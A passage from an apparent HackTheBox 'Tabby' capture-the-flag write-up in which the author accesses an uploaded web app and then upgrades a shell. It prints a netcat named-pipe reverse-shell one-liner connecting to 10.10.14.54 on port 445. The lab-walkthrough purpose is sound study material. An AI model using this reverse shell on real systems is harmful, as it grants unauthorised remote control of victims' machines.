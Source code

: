 ![uploaded-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tabby/img/uploaded-12.png)


Looks good, let's try to access it with:

```bash
curl http://tabby.htb:8080/app/
```

![shell-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tabby/img/shell-13.png)


The shell is a bit weird, so I start another lisetner and connect with the following payload:

```bash
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.54 445 >/tmp/f
```

![nice-shell-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tabby/img/nice-shell-14.png)
